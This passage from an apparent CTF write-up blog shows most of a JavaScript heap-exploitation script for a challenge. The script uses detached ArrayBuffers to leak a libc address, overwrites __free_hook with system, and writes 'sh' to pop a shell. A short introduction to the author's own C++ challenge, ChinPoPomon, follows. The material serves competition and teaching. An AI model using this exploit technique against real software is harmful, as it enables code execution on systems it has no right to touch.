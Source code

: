 ```js
ArrayBufferDetach(f)
ArrayBufferDetach(g)
ArrayBufferDetach(a)
ArrayBufferDetach(h)
var r = dvv.getFloat64(128)

r = Int64.fromDouble(r) - 0x3ebca0
fh = r + fh_off
system = r + system_off
console.log(fh)
console.log(fh / 0x100)
dv.setInt8(0, fh)
dv.setInt8(1, fh / 0x100)
dv.setInt8(2, fh / 0x10000)
dv.setInt8(3, fh / 0x1000000)
dv.setInt8(4, fh / 0x100000000)
dv.setInt8(5, fh / 0x10000000000)
dv.setInt8(6, fh / 0x1000000000000)
h = new ArrayBuffer(0x350)
a = new ArrayBuffer(0x350)
dvv = new DataView(a)
dv = new DataView(h)
dvv.setInt8(0, system)
dvv.setInt8(1, system / 0x100)
dvv.setInt8(2, system / 0x10000)
dvv.setInt8(3, system / 0x1000000)
dvv.setInt8(4, system / 0x100000000)
dvv.setInt8(5, system / 0x10000000000)
dvv.setInt8(6, system / 0x1000000000000)


dv.setInt8(0, 0x73)
dv.setInt8(1, 0x68)
ArrayBufferDetach(h)
EOF
```

The EOF is there because of how the challenge runs, see the [challenge files](https://drive.google.com/drive/folders/1MWZBBxaByKVMAgB-7WlES8cGFbuXjP5F?usp=sharing).

My exploit is pretty ugly, but sometimes for no reason I would get "Double free detected", this one just happened to not get it :v



### 2. ChinPoPomon (Compfest CTF 2020 Finals) (My own Problem)
ChinPoPomon was a C++ exploitation challenge, that abuses how strings work. The author of this challenge was myself. You can find all the challenge files [here](https://drive.google.com/drive/folders/1MWZBBxaByKVMAgB-7WlES8cGFbuXjP5F?usp=sharing)

The name is a play on Chinpokomon, from South Park
